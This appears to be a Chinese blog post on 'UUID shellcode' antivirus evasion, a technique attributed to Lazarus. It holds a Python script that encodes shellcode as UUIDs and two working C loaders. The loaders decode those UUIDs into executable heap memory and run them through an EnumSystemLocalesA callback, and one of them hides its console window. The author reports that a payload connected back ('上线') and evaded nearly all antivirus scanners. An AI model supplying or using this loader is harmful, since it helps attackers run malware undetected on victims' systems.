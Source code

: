 ```yaml
---
title: uuidshellcode免杀
date: 2021-01-27 09:29:00
toc: true
tags: 
- uuidshellcode
categories: 
- 免杀
---
```


## 关于

通过将shellcode转化为uuid，并把uuid解释并写入内存空间执行

原文：https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/

我们可以通过编写python脚本来进行shellcode转换uuid，我使用如下代码

~~~python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import uuid

u=["\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51",
"\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0",
"\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\x00\x00\x00",
]

i=0
while i<len(u):
    print(uuid.UUID(bytes_le=u[i]))
    i=i+1

#以上shellcode处为演示无实际意义，请自行更换
~~~

在shellcode最后一行中我们通过填充x00\x00\x00来占位防止程序报错

之后我们通过文中给的解释器来进行编译,将以上脚本生成的uuid替换到下面的uuids处

~~~c
#include <Windows.h>
#include <Rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] =
{
    "6850c031-6163-636c-5459-504092741551",
    "2f728b64-768b-8b0c-760c-ad8b308b7e18",
    "1aeb50b2-60b2-2948-d465-488b32488b76",
    "768b4818-4810-48ad-8b30-488b7e300357",
    "175c8b3c-8b28-1f74-2048-01fe8b541f24",
    "172cb70f-528d-ad02-813c-0757696e4575",
    "1f748bef-481c-fe01-8b34-ae4801f799ff",
    "000000d7-0000-0000-0000-000000000000",
};

int main()
{
    HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
    void* ha = HeapAlloc(hc, 0, 0x100000);
    DWORD_PTR hptr = (DWORD_PTR)ha;
    int elems = sizeof(uuids) / sizeof(uuids[0]);
    
    for (int i = 0; i < elems; i++) {
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)hptr);
        if (status != RPC_S_OK) {
            printf("UuidFromStringA() != S_OK\n");
            CloseHandle(ha);
            return -1;
        }
         hptr += 16;
    }
    printf("[*] Hexdump: ");
    for (int i = 0; i < elems*16; i++) {
        printf("%02X ", ((unsigned char*)ha)[i]);
    }
    EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
    CloseHandle(ha);
    return 0;
}
~~~

编译生成exe

![image](https://user-images.githubusercontent.com/38073810/105930649-e6db1880-6084-11eb-8445-e7fe8e5d5a2c.png)

运行成功上线

![image](https://user-images.githubusercontent.com/38073810/105930989-636df700-6085-11eb-8439-1d43eb8fb2d0.png)

免杀测试

![image](https://user-images.githubusercontent.com/38073810/105931065-7d0f3e80-6085-11eb-8e30-e346bb011823.png)

成功绕过国内所有杀软，以及国外大部分杀软，仅2项爆红。

不得不说，uuidshellcode免杀效果真心不错。

另贴一个隐藏cmd窗口的版本

~~~c
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
#include <stdio.h>
#include <heapapi.h>

#ifdef _MSC_VER
#pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" )
#endif

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] =
{
    "e48348fc-e8f0-00c8-0000-415141505251",
    "d2314856-4865-528b-6048-8b5218488b52",
    "728b4820-4850-b70f-4a4a-4d31c94831c0",
};

int main()
{
    HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);//在进程的虚拟地址空间中保留空间
    void* ha = HeapAlloc(hc, 0, 0x100000);//申请内存
    DWORD_PTR hptr = (DWORD_PTR)ha;
    int elems = sizeof(uuids) / sizeof(uuids[0]);

    for (int i = 0; i < elems; i++) {
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)hptr);//UUID转换为原来的shellcode写入内存
        if (status != RPC_S_OK) {
            printf("UuidFromStringA() != S_OK\n");
            CloseHandle(ha);
            return -1;
        }
        hptr += 16;
    }
    printf("[*] Hexdump: ");
    for (int i = 0; i < elems * 16; i++) {
        printf("%02X ", ((unsigned char*)ha)[i]);
    }
    EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);//枚举操作系统上安装或支持的语言环境。
    CloseHandle(ha);
    return 0;
}

~~~



